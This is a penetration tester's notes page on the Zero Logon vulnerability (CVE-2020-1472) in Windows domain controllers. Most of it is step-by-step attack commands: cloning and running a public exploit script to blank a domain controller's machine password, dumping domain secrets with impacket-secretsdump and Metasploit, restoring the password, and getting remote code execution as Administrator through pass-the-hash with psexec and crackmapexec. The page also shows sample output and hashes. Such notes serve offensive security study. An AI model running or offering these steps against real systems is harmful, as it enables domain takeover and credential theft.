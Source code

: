 # Zero Logon

{% embed url="https://github.com/VoidSec/CVE-2020-1472" %}

a full white paper on this vuln:

{% embed url="https://www.secura.com/blog/zero-logon" %}

## Exploitation

```
pipenv shell
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python setup.py install
pip install .
cd ~
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
pip install -r requirements.txt
./cve-2020-1472-exploit.py -n domain-controller -t 192.168.56.208
```

Running the script should results in Domain Controller's account password being reset to an empty string.

![](<../../../.gitbook/assets/image (231).png>)

test to see if the password was reseted:

```
impacket-secretsdump  -no-pass -just-dc MEGACORP.local/Lord_of_Domains\$@192.168.56.118
```

![](<../../../.gitbook/assets/image (232).png>)

## Using Metasploit

{% hint style="info" %}
The `auxiliary/gather/windows_secrets_du p` module can be used to recover the original machine account password which can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.
{% endhint %}

### Verification Steps

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string:
2. Recover the original machine account password
3. Restore the original machine account password

**NBNAME :** The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain this value. If this value is invalid the module will fail when making a Netlogon RPC request.

**PASSWORD** : The hex value of the original machine account password. This value is typically recovered from the target system's registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the value to an empty string within Active Directory using this module and the default REMOVE action.

This value is only used when running the module with the RESTORE action.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
set RHOSTS 192.168.159.53
set NBNAME WIN-GD5KVDKUNIP
run

# output:
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```

At this point the exploit/windows/smb/psexec module can be used to achieve code execution if desired. Set the SMBUser option to the machine account and the SMBPass option to the empty password value.

Next, recover the original machine account password value using auxiliary/gather/windows\_secrets\_dump. Look for the plain\_password\_hex value in the $MACHINE.ACC section.

```
use auxiliary/gather/windows_secrets_dump
set RHOSTS 192.168.159.53
set SMBUser WIN-GD5KVDKUNIP$
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
run
```

Finally, restore the original value using this module.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set ACTION RESTORE
set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
run
```

## PSEXEC

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
impacket-psexec -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  domain.local/Administrator@192.168.120.247
```

## crackmapexec

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
crackmapexec smb 192.168.120.247 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  -d domain.local -x whoami
```
